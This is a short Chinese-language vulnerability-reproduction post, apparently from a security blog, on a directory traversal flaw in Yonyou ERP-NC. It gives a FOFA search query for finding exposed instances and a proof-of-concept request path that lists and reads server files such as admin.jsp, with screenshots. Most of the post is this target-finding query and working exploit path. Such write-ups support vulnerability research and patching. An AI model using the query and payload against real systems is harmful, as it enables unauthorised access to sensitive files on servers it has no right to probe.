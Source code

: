 ```yaml
---
title: ⽤友ERP-NC ⽬录遍历漏洞
top: false
categories:
- 渗透测试
tags:
- 漏洞复现
- 用友ERP-NC
date: 2021-04-29 18:15:26
cover: https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/%E7%94%A8%E5%8F%8Bfofa.jpg
---
```


### 漏洞描述

⽤友ERP-NC 存在⽬录遍历漏洞，攻击者可以通过⽬录遍历获取敏感⽂件信息 



### fofa语法

```bash
app="⽤友-UFIDA-NC"
```

![](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/%E7%94%A8%E5%8F%8Bfofa.jpg)



### 复现

POC:

```bash
 /NCFindWeb?service=IPreAlertConfigService&filename=
```

![](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/%E7%94%A8%E5%8F%8B%E4%BA%BApoc1.jpg)

查看文件（这里以admin.jsp为例）：

![](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/%E7%94%A8%E5%8F%8Bpoc.jpg)
